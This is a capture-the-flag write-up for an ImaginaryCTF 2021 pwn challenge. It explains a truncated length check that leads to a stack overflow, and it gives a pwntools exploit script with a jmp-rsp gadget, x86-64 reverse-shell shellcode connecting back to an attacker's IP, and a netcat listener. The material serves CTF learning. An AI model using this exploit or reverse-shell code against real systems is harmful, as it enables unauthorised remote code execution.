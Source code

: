# ImaginaryCTF 2021: It's Not Web, I Swear!

![date](https://img.shields.io/badge/date-27.07.2021-brightgreen.svg)  ![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg) 
![pwn category](https://img.shields.io/badge/category-pwn-lightgrey.svg) ![score](https://img.shields.io/badge/score-450-blue.svg) ![solves](https://img.shields.io/badge/solves-17-brightgreen.svg)

## Description

In the spirit of DEFCON, I present you with this challenge that is not a web challenge! Go forth and pwn this notweb challenge

## Attached files
- [server](https://imaginaryctf.org/r/0AEB-server)

## Summary
To acquire the flag we had to find buffer overflow to override return pointer of a function to jump into our shellcode. However when our code is being executed we would already have been disconnected from the server, therefor we needed to reestablish the connection.

## Flag
``` ictf{all_pwn_and_no_web_makes_elliot_a_dull_boy} ```

## Detailed solution
After calling using **checksec** on challenge's binary we discover that there are no security features added by compiler, it even has executable stack
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
We can now look how the server works internally, in the **main** function, just after port passed as program argument gets verified, **startServer** is called. Then the program falls into **accept** loop. For each client connected to the server a new process is created to handle the communication.

In **respond** function firstly program checks if the request starts with ```GET /```
```
   0x4011b8 <respond+235>    mov    rsi, rdx
   0x4011bb <respond+238>    mov    rdi, rax
 ► 0x4011be <respond+241>    call   strstr@plt <strstr@plt>
        haystack: 0x604700 ◂— 'GET / HTTP/1.1\n'
        needle: 0x4017f8 ◂— 0x2f20544547 /* 'GET /' */
   0x4011c3 <respond+246>    cmp    qword ptr [rbp - 0x40], rax
   0x4011c7 <respond+250>    jne    respond+455 <respond+455>
```
our request has to pass that test in order to get to vulnerable path checking.

Then the program searches for ```<space>HTTP``` character sequence and number of characters between the end of ```GET /``` and the start of ```<space>HTTP``` is calculated. That number will be referred to as path length.

It is important to note that path length is stored as 32-bit variable
```
   0x401253 <respond+390>    sub    rdx, rax
   0x401256 <respond+393>    mov    rax, rdx
   0x401259 <respond+396>    mov    dword ptr [rbp - 0x54], eax
   0x40125c <respond+399>    mov    eax, dword ptr [rbp - 0x54]
```
Just after being calculated it is passed to **check_len** function, which returns **true** if length is below 100 and **false** if it is longer ... or ... wait!

```
   0x401067 <check_len+4>     mov    eax, edi
   0x401069 <check_len+6>     mov    byte ptr [rbp - 4], al
   0x40106c <check_len+9>     cmp    byte ptr [rbp - 4], 0x63
   0x401070 <check_len+13>    setbe  al
   0x401073 <check_len+16>    movzx  eax, al
```
it only checks if the least significant bit has value less than 100 ! They have even put it in another function to make it harder to spot!

When the function returns true, our path is copied onto the stack using full 32-bit path length. 
```
   0x40126d <respond+416>    mov    eax, dword ptr [rbp - 0x54]
   0x401270 <respond+419>    movsxd rdx, eax
   0x401273 <respond+422>    mov    rcx, qword ptr [rbp - 0x50]
   0x401277 <respond+426>    lea    rax, [rbp - 0xe0]
   0x40127e <respond+433>    mov    rsi, rcx
   0x401281 <respond+436>    mov    rdi, rax
   0x401284 <respond+439>    call   memcpy@plt <memcpy@plt>
```
There are ``0xe0`` bytes to get to the end of stack frame, then we have **main**'s function ``rbp`` which we can safely corrupt, and then there is return pointer.

However we have to check if there are any local variables that after getting corrupted would result in process crash. 
```
   0x401510 <respond+1091>    mov    rax, qword ptr [rbp - 0x40]
   0x401514 <respond+1095>    mov    rdi, rax
   0x401517 <respond+1098>    call   free@plt <free@plt>
```

There is only one such variable which is a pointer to the buffer that our message was **recv**'ed to. It is getting **free**'d just before return instruction, and never used elsewhere, so we can just zero it out.

We will create simple python script to help us sending data to the server
```
#!/bin/python

from pwn import *

import os

if len(sys.argv) > 1:
    io = remote('localhost', int(sys.argv[1]))
else:
    io = remote('not-web.chal.imaginaryctf.org', 42042)

padding_len = 0x100 - (240 & 0xff)

io.sendline(
        b'GET /' +
        b'A' * 160 +
        b'\x00\x00\x00\x00\x00\x00\x00\x00' +
        b'A' * 0x40 +
        b'BBBBBBBB' +
        b'D' * padding_len +
        b' HTTP'
)
```
We also need to add some padding to our path to make the lower bits of path length be 0

As expected the program crashes when trying to return to address ``0x4242...``
``` 
► 0x40158c <respond+1215>    ret    <0x4242424242424242>
```

Now we need to find address to return to, conveniently author of the challenge kindly left us useful ROP gadget at the end of **startServer** function
```
   0x40105e <startServer+375>    jmp    rsp
```
Stack pointer would now point right after the return pointer which in last example we have set to B's after modifying our script we can just put our shellcode there.
```
...
JMP_RSP = 0x40105e

os.system('nasm shellcode.asm')

shellcode = open('shellcode', 'rb').read()
payload_len = 240 + len(shellcode)
padding_len = 0x100 - (payload_len & 0xff)
...
        b'A' * 0x40 +
        p64(JMP_RSP) +
        shellcode +
        b'D' * padding_len +
...
```

Unfortunately at this point the server has already shut the connection with us down
```
   0x40152b <respond+1118>    mov    esi, 1
   0x401530 <respond+1123>    mov    edi, 1
   0x401535 <respond+1128>    call   shutdown@plt <shutdown@plt>
   0x40153a <respond+1133>    mov    edi, 1
   0x40153f <respond+1138>    call   close@plt <close@plt>
```
Therefor we have to reestablish connection to us. 
```
[bits 64]
start:
	mov rax, 41		; socket
	mov rdi, 2		; AF_INET
	mov rsi, 1		; SOCK_STREAM
	xor rdx, rdx
	syscall

	mov r14, rax		; we need to save socket fd

	mov rdi, rax
	mov rax, 42		; connect
	lea rsi, [rel server]
	mov rdx, 16
	syscall

				; using dup2 syscalls we can redirect
				; all standard streams to our socket fd
	mov rax, 33		; dup2
	mov rdi, r14
	mov rsi, 0
	syscall
	
	mov rax, 33		; dup2
	mov rdi, r14
	mov rsi, 1
	syscall
	
	mov rax, 33		; dup2
	mov rdi, r14
	mov rsi, 2
	syscall

	mov rax, 59		; execve
	lea rdi, [rel sh]	; now we can execute bash
	lea rsi, [rel zero]
	lea rdx, [rel zero]
	syscall

zero:	dq 0
sh:	db "/bin/sh", 0
server:	db 0x02,0x00,0x05,0x39, 127,   0,   0,   1,0xa0,0x50,0x55,0x55,0x55,0x55,0x00,0x00
;                    PORT      IP ADDRESS
```

Note that port ( 1337 in this example ) needs to be in **big endian** order.
Now we can just start netcat server on specified port and check the result locally.
```
nc -lp 1337
```
After our shellcode gets executed we will have shell in our netcat window.
The only thing that is left to do is to put public ip into our code, make sure that the port is correctly forwarded, and send our exploit to challenge's server.
You can then use ls and cat to acquire the flag.
